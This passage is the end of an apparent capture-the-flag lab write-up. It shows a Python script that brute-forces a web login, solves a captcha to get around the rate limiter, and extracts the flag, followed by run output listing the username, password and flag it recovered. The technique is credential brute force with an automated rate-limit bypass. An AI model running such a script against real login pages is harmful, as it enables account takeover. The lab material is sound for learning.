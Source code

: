 ```python
        LOG.info(f"Trying password ({idx + 1}/{len(passwords)}): {password} ", remove_last_line=True)
        data = {"username": username, "password": password}

        response = make_request(data)
        if not response:
            continue

        if "Too many bad login attempts!" in response.text:
            data["captcha"] = resolve_captcha(lastresponse_text)
            response = make_request(data)

        if "Invalid password for user" not in response.text:
            LOG.info(f"Valid password found: {password}", bold=True, remove_last_line=True)
            return password

    LOG.warning("No valid password found.")
    return None


if __name__ == "__main__":
    LOG.info("Initializing script", bold=True)
    username = find_username()
    if username:
        password = find_password(username)
        if password:
            LOG.info(f"Login successful! Username: {username}, Password: {password}", bold=True)
            flag = re.findall(r"Flag.txt:</h2>\s*<h3>(\w+)</h3>", lastresponse_text)
            if flag:
                LOG.info(f"Flag found: {flag[0]}", bold=True)
            else:
                LOG.error("Flag not found.", bold=True)
        else:
            LOG.error("Password not found.", bold=True)
    else:
        LOG.error("Username not found.", bold=True)
```

## Running the Script

Run the script:

```bash
python3 exploit.py
```

Results:

```bash
[22:23:57] INFO Initializing script
[22:23:57] INFO Starting username enumeration...
[22:24:34] INFO Valid username found: natalie
[22:24:34] INFO Starting password brute-force for username: natalie
[22:25:16] INFO Valid password found: sk8board
[22:25:16] INFO Login successful! Username: natalie, Password: sk8board
[22:25:16] INFO Flag found: 7df2eabce36f02ca8ed7f237f77ea416
```

The script successfully **bypassed the rate limiter**, **brute-forced the password**, and **extracted the flag**.
